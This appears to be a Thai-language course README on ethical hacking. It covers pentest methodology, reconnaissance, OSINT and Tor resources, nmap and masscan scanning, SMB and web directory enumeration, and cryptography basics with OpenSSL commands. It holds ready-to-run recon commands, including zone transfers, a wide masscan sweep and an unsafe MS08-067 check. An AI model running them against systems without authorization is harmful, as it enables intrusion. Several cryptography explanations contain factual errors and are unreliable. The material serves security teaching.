


# Ethical Hacking

Ethical Hecking เป็นหลักสูตรพิเศษสำหรับศึกษาระบบเครือข่ายและระบบปฏิบัติการในเชิงลึก เพื่อหาข้อบกพร่องหรือช่องโหว่ ขั้นตอนการทดลองเจาะระบบเทคนิคและเครื่องมือที่ใช้ในการเจาะระบบ การหาจุดบกพร่อง
ของซอฟต์แวร์ การถอดรหัสลับ ไวรัส โทรจัน การดักจับข้อมูล การหาข้อมูลด้านความปลอดภัยจากอินเทอร์เน็ต การทดลองเจาะระบบเว็บไซต์ กลไกในการป้องกันระบบจากการบุกรุก การสร้างเครื่องมือสำหรับผู้ทดสอบระบบ จริยธรรมและจรรยาบรรณสำหรับผู้ทดสอบเจาะระบบ การกู้คืนข้อมูล การหาข้อมูล การหาร่องรอยจากการบุกรุกทั้งภายในและภายนอก พ.ร.บ.ว่าด้วยการกระทำความผิดเกี่ยวกับคอมพิวเตอร์


## Course Outline

- [Ethical Hacking Methodology](#ethical-hacking-methodology)
- [Information Gathering](#information-gathering)
- [Scanning & Enumeration](#scanning--enumeration)
- [Vulnerability Scan](#vulnerability-scan)
- [Cryptography](#cryptography)
- [Exploitation](#exploitation)
- [Post-Exploitation](#post-exploitation)
- [Port Redirection and Tunneling](#port-redirection-and-tunneling)


## Prerequisites Download 
- Virtual box
- Metasploitable 2
- Metasploitable 3
- Kali linux 

## Course Objectives
- มีความรู้ความเข้าใจเกี่ยวกับพื้นฐานของการรักษาความมั่นคงปลอดภัยไซเบอร์
- เข้าใจถึงแนวทางการรับมือภัยคุกคามทางไซเบอร์ 
- มีความรู้ความเข้าใจในการหาช่องโหว่ของระบบ 
- เข้าใจถึงเทคนิคเชิงลึกในการเจาะช่องโหว่ของระบบ 
- สามารถหาจุดบกพร่องของซอฟต์แวร์หรือบริการ

---

## Ethical Hacking Methodology

วิธีการดำเนินงานการทดสอบเจาะระบบจากภายนอกของผู้ทดสอบเจาะระบบ จะดำเนินการตามกรอบการปฏิบัติในระดับสากล คือ เฟรมเวิร์ค Penetration Testing Execution Standard (PTES) เพื่อให้ผลการทดสอบสมบูรณ์และมีมาตรฐาน รวมไปถึงการช่วยให้ผู้ที่เกี่ยวข้องกับการทดสอบเจาะระบบมีความเข้าใจการดำเนินการ ซึ่งจะนำไปสู่การทำงานร่วมกันอย่างสะดวก รวดเร็วและปลอดภัย โดยมีขั้นตอนและวิธีการดังนี้



- ขั้นตอน Planning
ขั้นตอนนี้จะเป็นการวางแผนการทำงานร่วมกับผู้ดูแลระบบ โดยการรับข้อมูลขอบเขตการทำงานและกำหนดรูปแบบในการเจาะระบบให้เหมาะสมกับรูปแบบระบบงานของหน่วยงาน และกำหนดแนวทางในการเจาะระบบ เช่น เงื่อนไขหรือข้อจำกัดในการทดสอบเจาะระบบเพื่อไม่ให้เกิดความเสียหายต่อระบบ และวางกำหนดการดำเนินการในส่วนที่เกี่ยวข้องต่อไป
- ขั้นตอน Assessment
ขั้นตอนสำหรับการเริ่มทดสอบเจาะระบบตาม Standard Methodology สำหรับการทดสอบเจาะระบบ ซึ่งเป็นขั้นตอนเริ่มต้นเพื่อหาข้อมูลที่เกี่ยวกับเป้าหมาย เช่น หากเป้าหมายอยู่บนโครงข่าย Internet จะดำเนินการ Google Hacking ,DNS Analysis ,Intelligent Information Gathering ,Vulnerability Scanning เป็นต้น เพื่อหาข้อมูลช่องโหว่และข้อมูลต่าง ๆ เกี่ยวกับเป้าหมาย
- ขั้นตอน Exploitation
ขั้นตอนนี้จะเป็นการโจมตีหลังจากที่ได้ข้อมูลของเป้าหมายและข้อมูลช่องโหว่ที่สามารถเข้าถึงและควบคุมเครื่องเป้าหมาย เช่น Buffer Overflow ,Password Cracking ,Web Application Attack ,Mis-Configuration Attack เป็นต้น ซึ่งถ้าสามารถโจมตีได้สำเร็จ ก็จะสามารถเข้าสู่เครื่องเป้าหมายได้และสามารถดำเนินการในขั้นตอนต่อไปได้
- ขั้นตอน Post-Exploitation
หลังจากที่ผ่านขั้นตอน Exploitation แล้วผู้ทดสอบเจาะระบบ (Penetration Tester) จะสามารถควบคุมเครื่องได้ ซึ่งถ้าผู้ทดสอบเจาะระบบ (Penetration Tester) ทำการโจมตีช่องโหว่ที่ได้สิทธิ์ต่ำ ก็จะดำเนินการยกระดับสิทธิ์ให้เป็นสิทธิ์สูงสุด (Escalation Privileges) เพื่อให้สามารถควบคุมเครื่องได้ทั้งหมดและทำการเข้าถึงข้อมูลความลับในระดับชั้นต่าง ๆ เพื่อนำข้อมูลที่ได้ไปโจมตีระบบต่อไป
- ขั้นตอน Clean up and Destroy artifacts
หลังจากที่ทำการทดสอบเจาะระบบแล้ว ผู้ทดสอบเจาะระบบ (Penetration Tester) จะทำการลบสิ่งที่ได้ทำซึ่งอาจจะถูกนำมาใช้เป็นช่องทางเพื่อเข้าสู่ระบบโดยมิชอบได้ หรือข้อมูลที่ไม่สอดคล้องกับระบบต่างๆ เพื่อไม่ให้ระบบเกิดปัญหาในอนาคต
- ขั้นตอน Reporting
ผู้ทดสอบเจาะระบบ (Penetration Tester) จะรวบรวมผลการทดสอบเจาะระบบทั้งหมด เพื่อจัดทำรายงานในการทดสอบเจาะระบบและนำเสนอผลการทดสอบเจาะระบบร่วมกับผู้ดูแลระบบ เพื่อให้มีความเข้าใจภาพรวมช่องโหว่ของระบบทั้งหมดและแนวทางในการป้องกันระบบหรือปิดช่องโหว่ต่าง ๆ จากนั้นจะนำส่งรายงานฉบับเต็มให้กับหน่วยงาน เพื่อนำไปใช้อ้างอิงต่อไป


---
## Information Gathering
- **Passive** information gathering
  - [WHOIS Analysis](https://who.is/)
  - DNS Enumeration 
    - Standard Record Enumeration (A, AAAA, NS, SOA, MX, TXT, etc.)
      - NS: Nameserver record, which indicates the name servers associated 
with a given domain.
      - A: Address IPv.4 Record
      - AAAA: Address IPv.6 record
      - MX: Mail Exchange record, which identifies the mail servers for the 
given domain.
      - TXT: Text record, which includes an arbitrary text string for the domain. 
      - HINFO: Host Information record, which associates an arbitrary set of 
information with a domain name, formerly used to indicate system types.
      - CNAME: Canonical Name record, which indicates aliases and alternative 
names for a given host 
      - SOA: Start of Authority record, which indicates that a server is authoritative for 
that DNS zone 
      - RP: Responsible Person records, which are informational, not functional (that is, 
they have no impact on DNS functionality) and indicate the human responsible 
for a given domain. 
      - PTR: Pointer for inverse lookups records, also called a reverse record, 
indicating an IP address to domain name mapping. 
      - SRV: Service location records, which provides information about available services, including port and hostname. 
    - Zone Transfer
    - Reverse lookup
    - Subdomain Brute-force
    - SSL Certificates 
    - Search engines 
    - Online DNS tools
    - dig tool
  ```bash
  dig {a|txt|ns|mx} domain.com
  dig {a|txt|ns|mx} domain.com @ns1.domain.com
  dig domain.com ANY
  # Zone Tranfer
  dig axfr example.com @ns1.example.com
  ```
    - dnsenum
  ```bash
  dnsenum --noreverse -o mydomain.xml example.com
  ```
    - dnsrecon tool
  ```bash
  dnsrecon -d target.com -D wordlist -t brt 
  dnsrecon -t snoop -D wordlist -n ns-server.com
  dnsrecon -d target.com -D wordlist -t std --xml dnsrecon.xml
  ```
    - amass tool
  ```bash
  amass enum -d domain.com
  amass itel -d domain.com
  ```
    - [shodan](https://www.shodan.io)
    - [Censys](https://search.censys.io/)
    - [Dnsdumpster](https://dnsdumpster.com/)
  

- **Active** information gathering
  - [nmap](https://www.stationx.net/nmap-cheat-sheet/)
  - masscan
  ```bash
  masscan -p80,8000-8100 10.0.0.0/8 --rate=10000
  masscan -p80 10.0.0.0/8 --banners -oB <filename>
  masscan --open --banners --readscan <filename> -oX <savefile>
  ```
  - enum4linux
  ```bash
  enum4linux -U -o <ip>
  enum4linux -a -v <ip>
  ```
  - smbclient: smbclient is a client that can ‘talk’ to an SMB/CIFS server. It 
offers an interface similar to that of the FTP program. Operations 
include things like getting files from the server to the local 
machine, putting files from the local machine to the server, 
retrieving directory information from the server and so on.
  ```bash
  smbclient -L <ip> 
  smbclient //<ip>/share

  ```
  - dirb
  ```bash
  dirb http://target.com/
  ```
  - gobuster
  ```bash
  gobuster dir -u http://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .html,.php,.txt
  ```
  - Wfuzz
  ```bash
  wfuzz dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://target.com/~FUZZ
  ```
  - FFUF
  ```bash
  ffuf -c -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u 'http://target.com/FUZZ' -fc 403 
  ```
  - Metagofil ค้นหาไฟล์ต่างๆที่อยู่บนเว็บไซด์ของเป้าหมาย
  ```bash
  metagoofil -d target.com -t doc,pdf -l 200 -n 50 -o test -f
  # Option ที่ใช้คือ
  # -d ระบุเว็บไซด์ที่ต้องการค้นหา
  # -t ระบุประเภทไฟล์ที่ต้องการค้นหา
  # -n ระบุจำนวนไฟล์สูงสุดที่ต้องการ download
  # -l ระบุจำกัดผลที่รับกลับมาจากการค้นหาด้วย Google(โดยปกติคือ 200)
  # -o ระบุ path ที่เก็บไฟล์ต่างๆจากการ download file
  # -f ระบุถึงการบันทึกผลการ search
  ```
- OSINT (Opensource Intelligence)
  - [Map of OSINT](https://osintframework.com) 
  - [Sherlock](https://github.com/sherlock-project/sherlock) 
  - [Yandex](https://yandex.com/images) ค้นหารูปภาพได้ดีกว่า Google 
  - [ค้นหาข้อมูลเบอร์โทร](https://www.truecaller.com) 
  - [ค้นหา Location](https://tool.geoimgr.com) 
  - [ตรวจอสอบ Hotspot](https://www.wigle.net)
  - [ตรวจสอบเส้นทางการบิน](https://www.flightradar24.com) 
  - [ตรวจสอบเส้นทางเดินเรือ](https://www.marinetraffic.com/en/ais/home/centerx:-12.0/centery:24.9/zoom:4) 
  - [Google Hacking Database](https://www.exploit-db.com/google-hacking-database) 
  - [SSL or TLS certificates](https://crt.sh) 
  - [Wayback Machine](https://archive.org/web/)
  - [Check Beach information](https://haveibeenpwned.com) และ (https://www.dehashed.com) 
  - [Spiderfoor](https://www.spiderfoot.net) SpiderFoot is a reconnaissance tool that automatically queries over 100 public data sources (OSINT) to gather intelligence on IP addresses, domain names, e-mail addresses, names and more. 
  - [Robtex](https://www.robtex.com/dashboard/)
  - [เว็บสำหรับตรวจสอบเว็บที่โดน Web Defacement](http://zone-h.org)
  - AI Face Generator (https://thispersondoesnotexist.com และ https://generated.photos/faces)
  - IOC Checker
    - https://otx.alienvault.com/preview
    - https://exchange.xforce.ibmcloud.com
    - https://www.virustotal.com 
    - https://www.hybrid-analysis.com 
  - Threat intelligent feed source 
    - https://www.circl.lu/doc/misp/feed-osint
    - http://www.botvrij.eu/data/feed-osint
    - https://zeustracker.abuse.ch/blocklist.php?download=compromised
    - http://rules.emergingthreats.net/blockrules/compromised-ips.txt
    - https://panwdbl.appspot.com/lists/mdl.txt
    - https://www.dan.me.uk/torlist
    - http://cybercrime-tracker.net/all.php
    - http://data.phishtank.com/data/online-valid.csv
    - http://labs.snort.org/feeds/ip-filter.blf
    - https://ransomwaretracker.abuse.ch/feeds/csv/
- [TOR Network](https://www.torproject.org)
  - Search engine in TOR 
    - https://ahmia.fi/ 
    - ahmia
    - darksearchio
    - onionland
    - notevil
    - darksearchenginer
    - phobos
    - onionsearchserver
    - torgle
    - onionsearchengine
    - tordex
    - tor66
    - tormax
    - haystack
    - multivac
    - evosearch
    - deeplink
  - กรณีต้องการเข้าใช้ .onion สามารถใช้ .ly ต่อท้าย เพื่อเข้าไปยัง Site ดังกล่าวได้โดยไม่ผ่าน Browser TOR ได้ เช่น .onion.ly เป็นต้น
  - Check TOR Exit Nodes 
    - https://www.dan.me.uk/tornodes 
    - https://udger.com/resources 
  - Mail on TOR 
    - http://mail2tor2zyjdctd.onion 
    - http://secmailw453j7piv.onion 
    - https://ctemplar.com 
  - BTC followup 
    - https://etherscan.io
    - https://www.bitcoinwhoswho.com
    - https://www.blockchain.com/explorer 

---
## Scanning & Enumeration
- Enumeration
  - Email ID
  - Default Password
  - SNMP
  - Bruteforce Attack on Active Directory
  - Enumeration through DNS Zone Transfer 
  - Services and Ports to Enumerate
  - Research Potential Vulnerability 
    - [Exploit DB](https://www.exploit-db.com/)
    - Searchspoit
     ```bash
      searchspoit smb
    ```

- Vulnerability Scanning
  - NMAP NSE script 
    ```bash
    ls -ls /usr/share/nmap/scripts 
    # Help NSE Script
    nmap --script=help dns-zone-transfer
    # DNS
    nmap --script=dns-zone-transfer -p 53 ns.server.test 
    # SMB
    ls -la /usr/share/nmap/scripts/smb*
    nmap 10.10.10.10 --script=smb-os-discovery
    # In this case, Nmap identifies that the specific SMB service is missing at least one critical patch for the MS08-067212 vulnerability.
    nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 10.10.10.10
    ```

---
## Vulnerability Scan
- Nessus 
- OpenVAS

---
## Cryptography
เป็นเทคโนโลยีการเข้ารหัสและถอดรหัสข้อมูลเพื่อป้องกันการถูกโจมตีหรือเข้าถึงโดยไม่มีสิทธิ์ มักใช้ในการเข้ารหัสข้อมูลส่วนตัว, ข้อมูลทางธุรกิจ และการสื่อสารในเครือข่าย
  - กระบวนการเข้ารหัสหรือ Encryption Process
    - Paintext > Encryption > Ciphertext > Decryption > Paintext 
  - Tools 
    - [Cyberchef](https://gchq.github.io/CyberChef/)
    - [dcode.fr](https://www.dcode.fr/)
  - Encoding and Decoding 
    - Encoding คือการแปลงข้อมูลให้อยู่ในรูปแบบที่ใช้ได้ในระบบหรือเครื่องมือที่เฉพาะ เช่น แปลงข้อมูลตัวอักษรให้เป็นเลขฐาน 2 (binary) หรือ แปลงข้อมูลภาพให้เป็นไฟล์ JPEG
    - Decoding คือการแปลงข้อมูลกลับมาในรูปแบบต้นฉบับ หรือรูปแบบที่ใช้ได้ในการเข้าถึง เช่น แปลงเลขฐาน 2 เป็นตัวอักษร หรือ แปลงไฟล์ JPEG เป็นภาพ
    - Binary เป็นรูปแบบการแปลงข้อมูลในรูปแบบต้นฉบับเป็นข้อมูลในรูปแบบฐาน 2 (binary) ซึ่งเป็นรูปแบบข้อมูลที่ใช้ในคอมพิวเตอร์ โดยใช้ 0 และ 1 เพื่อแทนค่าต่างๆ เช่น ตัวอักษร A จะแปลงเป็น 01000001 , ตัวเลข 10 เป็น 00001010
    - Base-8, หรือ Octal, เป็นระบบการเข้ารหัสตัวเลขที่ใช้ 8 หลัก ซึ่งมีตัวเลข 0-7 เป็นตัวหลัก โดยเลขใดเลขหนึ่งจะแทนค่า 8^n เมื่อ n เป็นตำแหน่งของหลัก ซึ่งจะแปลงข้อมูลเป็นตัวเลข 8 หลัก
    - Hex/Hexadecimal Hex encoding (Hexadecimal encoding) คือการแปลงข้อมูลในรูปแบบต้นฉบับเป็นข้อมูลในรูปแบบฐาน 16 (Hexadecimal) ซึ่งเป็นรูปแบบข้อมูลที่ใช้ในคอมพิวเตอร์ โดยใช้ตัวเลข 0-9 และ A-F เพื่อแทนค่าต่าง ๆ เช่น ตัวอักษร A จะแปลงเป็น 41 , ตัวเลข 10 เป็น A
    - Base58 Base58 เป็นระบบการเข้ารหัสตัวเลข ซึ่งจะแปลงข้อมูลเป็นตัวเลข 58 หลัก โดยใช้ตัวเลขจาก 0-9 และตัวอักษร A-Z และ a-z (ยกเว้นตัว l, I, O เพื่อไม่ให้เกิดความสับสน) ซึ่งมักใช้ในการเข้ารหัสข้อมูลส่วนตัว เช่น Bitcoin Address
    - Base62 เป็นระบบการเข้ารหัสตัวเลข ซึ่งจะแปลงข้อมูลเป็นตัวเลข 62 หลัก โดยใช้ตัวเลข 0-9 และตัวอักษร A-Z และ a-z ซึ่งจะเป็นรูปแบบข้อมูลที่มีขนาดเล็กกว่า Base64
    - Base64 เป็นระบบการเข้ารหัสข้อมูลโดยใช้ 64 ตัวอักษร โดยจะใช้เลข 0-9 และตัวอักษร A-Z, a-z และ + / (ยกเว้น = ) ซึ่งจะแปลงข้อมูลเป็นตัวเลข 6 หลัก
    - Base85 Base85 เป็นวิธีการเข้ารหัสข้อมูลโดยใช้ 85 ตัวอักษร โดยแต่ละตัวอักษรจะแทนค่าของ 5 บิต ซึ่งจะทำให้การเข้ารหัสและถอดรหัสข้อมูลเป็นไปได้ง่ายขึ้นเปรียบเทียบกับ Base64 ซึ่งใช้ 64 ตัวอักษรเท่านั้น
    - ROT13 เป็นวิธีการเข้ารหัสข้อมูลที่ใช้การเลื่อนตัวอักษรที่เป็นตัวอักษรภาษาอังกฤษ 13 ตำแหน่ง นั่นคือ ตัวอักษร A จะเปลี่ยนเป็น N, B จะเปลี่ยนเป็น O และต่อไปจนถึง Z จะเปลี่ยนเป็น M และเหมือนกันสำหรับตัวอักษร a-z ใช้กันโดยการแปลงข้อความสำหรับความปลอดภัยเบื้องต้น
    - ROT47 เป็นวิธีการเข้ารหัสข้อมูลที่ใช้การเลื่อนตัวอักษร 47 ตำแหน่ง ในภาษา ASCII ซึ่งจะเปลี่ยนตัวอักษรต่างๆ ในรูปแบบต่างๆ ตั้งแต่ ตัวอักษร ตัวเลข และสัญลักษณ์ โดยใช้สำหรับความปลอดภัยเบื้องต้น
    - Atbash เป็นวิธีการเข้ารหัสข้อมูลที่ใช้การเปลี่ยนตัวอักษรตามลำดับตัวอักษรของตัวอักษรตัวสุดท้ายของภาษาอังกฤษ เช่น A เปลี่ยนเป็น Z, B เปลี่ยนเป็น Y และต่อไปจนถึง Z เปลี่ยนเป็น A โดยใช้ในการเข้ารหัสข้อความสำหรับความปลอดภัยเบื้องต้นในยุคโบราณ
    - URL Encode/Decode เป็นวิธีการแปลงข้อมูลให้สามารถใช้งานได้บนอินเทอร์เน็ต โดยการเข้ารหัส URL Encode จะแปลงตัวอักษรที่ไม่สามารถใช้ใน URL ได้ เช่น ช่องว่าง อักขระพิเศษ ให้เป็นรหัส %่่ โดยส่วนของ URL Decode จะเป็นการแปลงกลับมาเป็นตัวอักษรปกติ
    - Morse Code เป็นรหัสสัญลักษณ์ที่ใช้ในการแปลงข้อความเป็นเสียงหรือสัญลักษณ์ ซึ่งแต่ละตัวอักษรหรือตัวเลข จะมีสัญลักษณ์ของตัวเอง เช่นตัวอักษร 'A' จะเป็น ".-" และ 'Z' จะเป็น "--.." ซึ่งใช้กันในการส่งข้อความผ่านเสียงในยุคก่อนปัจจุบัน
    - Braille เป็นรหัสสัญลักษณ์ที่ใช้ในการแปลงข้อความสำหรับคนตาบอด โดยจะใช้สัญลักษณ์ของ 6 จุดที่ตั้งอยู่บนกระดาษ แต่ละตัวอักษรหรือตัวเลข จะมีสัญลักษณ์ของตัวเอง เช่น ตัว "A" จะเป็น "⠁" และ "Z" จะเป็น "⠻" ใช้สำหรับการเขียนอ่านและการเรียนรู้สำหรับคนตาบอด
    - [Brainfuck](https://www.dcode.fr/langage-brainfuck)
    - [Affine Cipher](https://www.dcode.fr/affine-cipher)
    - [Malbolge](http://malbolge.doleczek.pl/)
- Symmetric Key Cryptography หรือการเข้ารหัสด้วยกุญแจคู่ เป็นวิธีการเข้ารหัสข้อมูลโดยใช้กุญแจเดียวกันสำหรับการเข้ารหัสและถอดรหัส ซึ่งกุญแจนี้ต้องแชร์ให้กับผู้ที่ต้องการใช้ข้อมูลที่เข้ารหัสไว้ ซึ่งจะมีปัญหาในการควบคุมการแชร์และการเข้าถึงของข้อมูล แต่จะมีประสิทธิภาพในการเข้ารหัสและถอดรหัสเป็นอย่างดี
    - Process
      - Paintext + KEY > Ciphertext 
      - Ciphertext + KEY = Paintext
    - RC2 RC2 (Rivest Cipher 2) เป็นการเข้ารหัสข้อมูลที่ใช้กุญแจคู่แบบกระบวนการเข้ารหัสประเภท block cipher ซึ่งเป็นการเข้ารหัสแบบกำหนดความยาวของข้อมูลที่เข้ารหัสไว้ ซึ่งสามารถใช้ความยาวของกุญแจได้ตั้งแต่ 40 ถึง 128 bit ซึ่งถูกใช้ในการเข้ารหัสข้อมูล ในด้านความปลอดภัย การเข้าถึงข้อมูลด้วย RC2 ได้ถูกตรวจสอบและพบว่ามีปัญหาด้านความปลอดภัยเมื่อใช้กุญแจความยาวน้อย และได้แจ้งเตือนให้ใช้กุญแจความยาวมากกว่า 80 bit เพื่อให้ป้องกันปัญหาดังกล่าว ซึ่งในปัจจุบันการใช้ RC2 ได้ถูกลดลง เนื่องจากปัญหาด้านความปลอดภัยที่เป็นปัญหาในการใช้งาน และได้แนะนำให้ใช้การเข้ารหัสที่เป็นปัจจุบันและมีปัญหาความปลอดภัยเล็กน้อยกว่าเช่น AES หรือ RSA เป็นต้น
    - RC4 RC4 (Rivest Cipher 4) เป็นการเข้ารหัสข้อมูลที่ใช้กุญแจคู่แบบกระบวนการเข้ารหัสประเภท stream cipher ซึ่งเป็นการเข้ารหัสข้อมูลแบบกระบวนการต่อเนื่อง ซึ่งสามารถใช้ความยาวของกุญแจได้ตั้งแต่ 40 ถึง 2048 bit ซึ่งเป็นการเข้ารหัสที่เป็นที่นิยมในอดีต แต่ในปัจจุบันได้พบปัญหาด้านความปลอดภัยของ RC4 เนื่องจากวิธีการทำงานที่เป็นตัวแทนของกุญแจทำให้เป็นไปได้ในการโจมตี จึงถูกแนะนำให้ใช้เทคโนโลยีการเข้ารหัสที่เป็นปัจจุบันและมีปัญหาความปลอดภัยเล็กน้อยกว่า เช่น AES หรือ RSA เป็นต้น โดยปัจจุบันการใช้ RC4 ได้ถูกหลีกเลี่ยงในการใช้งานเนื่องจากปัญหาความปลอดภัย และมีการแจ้งเตือนจากหน่วยงานต่างๆ เกี่ยวกับปัญหาความปลอดภัยของ RC4 และแนะนำให้ใช้เทคโนโลยีการเข้ารหัสที่เป็นปัจจุบันและมีความปลอดภัยสูงกว่า
    - XOR XOR Encryption (Exclusive Or Encryption) เป็นการเข้ารหัสข้อมูล โดยใช้การใช้การเปรียบเทียบของ bit กับกุญแจ ซึ่งจะทำการเข้ารหัสข้อมูลโดยใช้วิธีการ XOR (Exclusive OR) ของข้อมูลกับกุญแจ ซึ่งจะได้ข้อมูลที่เข้ารหัสและสามารถใช้กุญแจเดียวกันในการเข้าถึงข้อมูลได้ ซึ่งเป็นการเข้ารหัสที่ไม่มีความปลอดภัย เนื่องจากวิธีการเข้ารหัสที่ใช้ XOR จะสามารถถอดรหัสได้ง่าย โดยใช้ XOR อีกครั้งกับข้อมูลเข้ารหัส และการใช้กุญแจเดียวกันในการเข้ารหัสและถอดรหัส จึงไม่เหมาะสำหรับใช้ในการเข้ารหัสข้อมูล
    - Blowfish เป็นการเข้ารหัสข้อมูลประเภท symmetric-key block cipher ซึ่งถูกพัฒนาโดย Bruce Schneier ในปี 1993 ซึ่งใช้กุญแจเป็นความยาวตั้งแต่ 32-448 bit และสามารถใช้ได้กับข้อมูลที่มีขนาดใหญ่ได้ ซึ่งเป็นการเข้ารหัสที่ได้รับความนิยมในปัจจุบัน โดยเฉพาะในการใช้งานในการเข้ารหัสแบบ software และมีปัญหาความปลอดภัยที่เล็กน้อย Blowfish ใช้วิธีการเข้ารหัสคู่ของ block cipher โดยการแปลงข้อมูลจาก plaintext เป็น ciphertext โดยใช้กุญแจและการใช้วิธีการคีย์การเข้ารหัสซ้อน (key schedule) โดยใช้การเปลี่ยนแปลงของ s-box และ p-box ซึ่งเป็นตัวกำหนดความเข้ารหัสในแต่ละรอบ ซึ่งจะให้ความปลอดภัยสูง แต่อาจไม่สามารถใช้ได้ในการเข้ารหัสข้อมูลขนาดใหญ่
    - Data Encryption Standard (DES) เป็นระบบเข้ารหัสข้อมูลแบบ symmetric-key encryption ซึ่งมีการใช้งานในระดับอุตสาหกรรม และได้รับการพัฒนาโดย National Institute of Standards and Technology (NIST) โดยใช้วิธีการเข้ารหัสข้อมูลที่ใช้ Feistel Network และใช้ key ขนาด 56 bit ซึ่งถูกใช้ในการเข้ารหัสข้อมูลต่างๆ เช่น ข้อมูลทางการเงิน และข้อมูลส่วนตัว 
    - Advanced Encryption Standard (AES)  เป็นระบบเข้ารหัสข้อมูลที่ได้รับการพัฒนาโดย National Institute of Standards and Technology (NIST) และได้รับการรับรองในระดับอุตสาหกรรม ซึ่งเป็นระบบเข้ารหัสข้อมูลแบบ symmetric-key encryption โดยใช้วิธีการเข้ารหัสข้อมูลที่ใช้ Rijndael Algorithm และมีขนาด key ที่ใช้ได้ 128, 192 และ 256 bit ซึ่งถูกใช้ในการเข้ารหัสข้อมูลต่างๆ เช่น ข้อมูลทางการเงิน และข้อมูลส่วนตัว ซึ่ง AES ถูกใช้งานแพร่หลายในปัจจุบัน เพราะความปลอดภัยที่ให้มากกว่า DES

- OpenSSL Toolkit
  ```bash
  # BASE64 Encode and Decode via OpenSSL
  echo 'Cryptography' | openssl enc -base64
  echo 'Cryptography' | openssl enc -e -base64
  echo 'Q3J5cHRvZ3JhcGh5Cg==' | openssl enc -d -base64

  # DES Encrypt/Decrypt
  # DES Ex 1 
  echo 'Cryptography' | openssl enc -des -base64 -K e0e0e0e0f1f1f1f1 -iv e0e0e0e0abababab
  echo 'NYC/82QHAy44n5n3ti9WBA==' | openssl enc -d -des -base64 -K e0e0e0e0f1f1f1f1 -iv e0e0e0e0abababab
  
  # DES Ex 2
  echo 'Cryptography' | openssl enc -des -base64 -k 'testdata'
  echo 'U2FsdGVkX1+OK9Bo/SqWGgy+BZG6gfU4enKJCL6HqHQ=' | openssl enc -d -des -base64 -k 'testdata'

  # DES Ex 3 
  echo 'Cryptography' | openssl enc -des -base64 -k 'testdata' -nosalt
  echo 'TnIGcH/Cob11I37QAe6RAQ==' | openssl enc -d -des -base64 -k 'testdata' -nosalt

  # DES Ex 4
  echo 'Cryptography' | openssl enc -des -base64 -k 'testdata' -pbkdf2
  echo 'U2FsdGVkX1/UOh4++KJcbhnQN/FYYiqbWQjQaBuSJNI=' | openssl enc -d -des -base64 -k 'testdata' -pbkdf2

  # AES-128 Encrypt/Decrypt
  echo 'Cryptography' | openssl enc -aes128 -base64 -k 'testdata' -pbkdf2
  echo 'U2FsdGVkX1/8sGvTYMz/lK8XPLJ4lw3rLDTrmT2U/fI=' | openssl enc -d -aes128 -base64 -k 'testdata' -pbkdf2

  # Blowfish Encrypt/Decrypt
  echo 'Cryptography' | openssl enc -bf -base64 -k 'testdata' -pbkdf2
  echo 'U2FsdGVkX1+QEJWo8tFlPlmihsslP2HduPHTbLRMyYo=' | openssl enc -d -bf -base64 -k 'testdata' -pbkdf2

  # RC4 Encrypt/Decrypt
  echo 'Cryptography' | openssl enc -rc4 -base64 -k 'pass' -pbkdf2 -nosalt
  echo 'K2zGLxryS/cNaSuaXg==' | openssl enc -d -rc4 -base64 -k 'pass' -pbkdf2 -nosalt

  # CAST Encrypt/Decrypt
  echo 'Cryptography' | openssl enc -cast -base64 -k 'hello' -pbkdf2
  echo 'U2FsdGVkX1/6nzZM4IEoiSX0rZz0neI43r5lbb9rBs4=' | openssl enc -d -cast -base64 -k 'hello' -pbkdf2
  ```

- Asymmetric Key Cryptography Public-key cryptography, or asymmetric-key
cryptography, is a cryptographic system that uses pairs of keys: (Use two keys and
Two-way methods)
  - public keys, which may be disseminated widely
  - private keys, which are known only to the owner
  - Process
    - Plaintext + Public Key = Ciphertext
    - Ciphertext + Private key = Plaintext
  - Asymmetric Key Algorithms
    - ElGamal is an asymmetric key encryption algorithm which is based on the Diffie–Hellman key exchange
    - [RSA](https://th.wikipedia.org/wiki/%E0%B8%AD%E0%B8%B2%E0%B8%A3%E0%B9%8C%E0%B9%80%E0%B8%AD%E0%B8%AA%E0%B9%80%E0%B8%AD) (Rivest–Shamir–Adleman) is the first public-key cryptosystems and is widely used for secure data transmission, the encryption key is public and distinct from the decryption key which is kept secret (private)
    - Elliptic Curve Cryptography (ECC) provides similar functionality to RSA and implements in smaller devices like cell phones
    - Digital Signature Algorithm (DSA) was developed by the United States government for digital signatures
  
